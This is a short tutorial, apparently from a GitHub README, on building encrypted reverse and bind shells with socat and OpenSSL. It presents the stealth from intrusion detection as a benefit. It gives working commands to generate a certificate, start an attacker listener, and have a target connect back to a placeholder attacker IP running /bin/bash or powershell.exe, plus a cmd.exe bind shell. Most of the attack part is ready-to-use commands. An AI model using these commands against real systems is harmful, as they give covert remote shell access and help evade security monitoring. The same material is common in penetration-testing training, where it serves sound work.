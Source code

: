 - Confidentiality: Encrypted traffic prevents eavesdropping.
- Stealth: Encrypted traffic is harder for Intrusion Detection Systems (IDS) to analyze.
- Improved Security: Prevents shell session hijacking.

### Why Use Encrypted Shells?
Plaintext shells (e.g., Netcat) can be easily sniffed on the network. Encrypted shells ensure that:

- Your commands and responses are secure.
- The session is less detectable to security monitoring tools.

### Step 1: Generate a Self-Signed SSL Certificate
Run the following on your attacker machine to generate a certificate and private key:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
- rsa:2048: Generates a 2048-bit RSA key.
- -nodes: No passphrase.
- -x509: Self-signed cert.
- -days 362: Validity of 362 days.

Then merge the key and certificate into a single .pem file:
```bash
cat shell.key shell.crt > shell.pem
```

### Step 2: Encrypted Reverse Shell
**Attacker (Listener):**
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
- OPENSSL-LISTEN: Enables SSL over TCP.
- cert=shell.pem: Your self-signed cert.
- verify=0: Skips certificate authority verification.

### Target (Connect Back):
- On Linux:
  ```bash
  socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:/bin/bash
  ```
- On Windows:
  ```bash
  socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:powershell.exe,pipes
  ```

### Step 3: Encrypted Bind Shell
**Target (Listener):**
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
⚠️ You'll need to copy the .pem file to the target, since it's the one hosting the listener.

**Attacker (Connect to Target):**
```bash
socat OPENSSL:<TARGET-IP>:<PORT>,verify=0 -
```
